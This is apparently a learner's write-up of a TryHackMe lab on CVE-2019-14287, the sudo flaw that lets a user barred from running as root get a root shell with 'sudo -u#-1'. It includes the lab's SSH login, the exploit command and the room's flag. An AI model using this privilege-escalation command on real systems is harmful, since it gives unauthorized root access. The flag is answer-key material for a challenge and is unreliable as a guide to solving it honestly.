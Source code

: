 ```yaml
---
sticker: emoji//1f427
---
```


# SUDO SECURITY BYPASS

***

CVE-2019-14287 is a vulnerability found in the Unix Sudo program by a researcher working for Apple: Joe Vennix. Coincidentally, he also found the vulnerability that we'll be covering in the next room of this series. This exploit has since been fixed, but may still be present in older versions of Sudo (versions < 1.8.28), so it's well worth keeping an eye out for!

For those who might be unfamiliar with it: sudo is a command in Unix that allows you to execute programs as other users. This usually defaults to the superuser (root), but it's also possible to execute programs as other users by specifying their username or UID. For example, sudo would usually be used like so: `sudo <command>`, but you could manually choose to execute it as another user like this: `sudo -u#<id> <command>`. This means that you would be pretending to be another user when you executed the chosen command, which can give you higher permissions than you might otherwise have had. As an example:

![](https://muirlandoracle.co.uk/wp-content/uploads/2020/02/sudo-demo.png)

In this example my user account did not have permission to read the file `/root/root.txt`,so I used sudo to temporarily give myself root privileges, in order to read the file.

Like many commands on Unix systems, sudo can be configured by editing a configuration file on your system. In this case that file is called `/etc/sudoers`. Editing this file directly is not recommended due to its importance to the OS installation, however, you can safely edit it with the command `sudo visudo`, which checks when you're saving to ensure that there are no misconfigurations.

The vulnerability we're interested in for this task occurs in a very particular scenario. Say you have a user who you want to grant extra permissions to. You want to let this user execute a program as if they were any other user, but you _don't_ want to let them execute it as root. You might add this line to the sudoers file:

`<user> ALL=(ALL:!root) NOPASSWD: ALL`

This would let your user execute any command as another user, but would (theoretically) prevent them from executing the command as the superuser/admin/root. In other words, you can pretend to be any user, except from the admin.

Theoretically.

In practice, with vulnerable versions of Sudo you can get around this restriction to execute the programs as root anyway, which is obviously great for privilege escalation!

With the above configuration, using `sudo -u#0 <command>` (the UID of root is always 0) would not work, as we're not allowed to execute commands as root. If we try to execute commands as user 0 we will be given an error. Enter CVE-2019-14287.

Joe Vennix found that if you specify a UID of -1 (or its unsigned equivalent: 4294967295), Sudo would incorrectly read this as being 0 (i.e. root). This means that by specifying a UID of -1 or 4294967295, you can execute a command as root, _despite being explicitly prevented from doing so_. It is worth noting that this will _only_ work if you've been granted non-root sudo permissions for the command, as in the configuration above.

Practically, the application of this is as follows: `sudo -u#-1 <command>`

![](https://muirlandoracle.co.uk/wp-content/uploads/2020/02/capture.png)

***

Now it's your turn.

SSH into that machine you deployed earlier, **using port 2222**.

The credentials are:

```ad-note
Username: tryhackme  
Password: tryhackme
```

If you're using Linux, the command will look like this:

`ssh -p 2222 tryhackme@10.10.242.137`

## Questions

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250106150752.png)

Let's use sudo -l to check what command we are allowed to run:

![](gitbook/cybersecurity/images/Pasted%20image%2020250106150821.png)

We are allowed to run `/bin/bash`

Now, in order to read the flag, we must perform the vulnerability in the following way:

```ad-hint
1. We can get a root session by passing in the following command: `sudo -u \#$((0xffffffff)) /bin/bash`, which can actually be: `sudo -u \#-1 /bin/bash`

#### Output

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250106152010.png)

So, root flag would be: 

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250106152029.png)

`THM{l33t_s3cur1ty_bypass}`
```
